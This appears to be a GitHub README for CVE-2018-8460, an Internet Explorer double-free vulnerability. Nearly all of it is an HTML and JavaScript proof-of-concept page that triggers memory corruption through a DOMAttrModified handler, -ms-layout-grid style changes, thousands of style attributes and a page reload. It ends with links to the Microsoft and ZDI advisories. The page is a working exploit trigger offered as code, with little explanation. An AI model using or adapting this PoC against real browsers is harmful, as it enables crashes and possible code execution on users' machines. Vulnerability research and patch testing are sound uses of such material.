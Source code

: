 # CVE-2018-8460

## PoC

```html
<html>
<head>
        <meta http-equiv="Expires" content="-1">
<head>
<script>
    
var iterationCount = 0;
    
function testcase() {
Math.atan2(1,0);
elm = document.createElement('ins')
func = function(e) {
        iterationCount++;
        switch (iterationCount) {
                case 1:
                case 2:
                case 12:
                case 22:
                /*case 34:*/
                        this.style.cssText = '-ms-layout-grid: char strict auto auto; -ms-layout-grid: none fixed 49cp auto;';
                        break;
        }
}
elm.addEventListener('DOMAttrModified', func, true)
elm.className = 'AAAAAAAAA'

for (i = 0; i < 0x4444; i++) {          // See text below for an explanation
        elm.style.setAttribute("-ms-xyz" + i, "1px 2px 3px 4px");
}

location.reload();

}
</script>

<body onload='testcase();'>
</html>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8460)
+ [ZDI](https://www.zerodayinitiative.com/blog/2018/10/18/cve-2018-8460-exposing-a-double-free-in-internet-explorer-for-code-execution)
